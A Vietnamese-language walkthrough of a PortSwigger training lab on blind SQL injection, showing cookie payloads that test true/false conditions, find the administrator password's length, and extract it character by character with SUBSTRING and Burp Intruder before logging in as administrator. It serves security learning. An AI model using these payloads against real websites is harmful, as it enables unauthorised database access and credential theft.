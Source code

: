 # Blind SQL injection with conditional responses

Khi mới vào ta thấy đây là 1 trang web bình thường, thử `F5` xem nhé, vậy là thấy sự khác nhau trước và sau khi tải lại trang:

- Trước khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511855901708328/image.png)

- Sau khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511905327403018/image.png)

Vậy là xuất hiện thông báo `Welcome back!`.

- Ta thay đổi Cookie thành dạng:
   - `TrackingId=xxx' and '1'='1` thì vẫn thấy thông báo `Welcome back!`.
   - `TrackingId=xxx' and '1'='2` thì không thấy thông báo `Welcome back!` nữa.

Vậy đây là Blind SQL injection.

Bài lab này cho ta biết dữ liệu bên trong bảng `users` gồm 2 cột `username` và `password`, yêu cầu là ta phải đăng nhập với tài khoản `administrator`.

Sử dụng câu lệnh sau để xem có bao nhiêu kí tự trong mật khẩu của quản trị viên, nếu xuất hiện thông báo `Welcome back!` nghĩa là điều kiện bên trong câu lệnh là `True`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
...

- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a` (Tới đây thì đã False)

Vậy là mật khẩu quản trị viên chưa 20 kí tự.

![]([https://cdn.discordapp.com/attachments/1124588087931043891/1135946312303525919/image.png](https://github.com/Luwcj/SQLi/blob/main/Portswigger/Blind%20SQL%20injection%20with%20conditional%20responses/5.1.png))
![]()

Tiếp theo ta sử dụng câu lệnh sau để dò từng kí tự của mật khẩu:
- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='3`

Ta send request tới Intruder và brute force từng kí tự của mật khẩu 

- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§b§` ( add biến cần thay đổi vào payload)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135948776838803548/image.png)

- Tiếp theo click vài `Payloads` rồi add thêm items(bao gồm tất cả chữ cái và chữ số) rồi `Start attacks`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135949207107280906/image.png)

Ta để ý ở phần `Length` xem cái nào dài nhất thì cái đó chính là `True` và chứa kí tự của mật khẩu.

Tiếp theo ta thay đổi SUBSTRING(password,`thứ tự của kí tự trong mật khẩu`,1) rồi brute force và sẽ tìm được mật khẩu (vì mình dùng BurpSuite bản lỏd nên phải làm như này, nếu là Burp pro thì chỉ cần brute một lần là có mật khẩu luôn rùi).
Sau khi có mật khẩu rùi thì đăng nhập với tên đăng nhập `administrator` và solve lab thui.

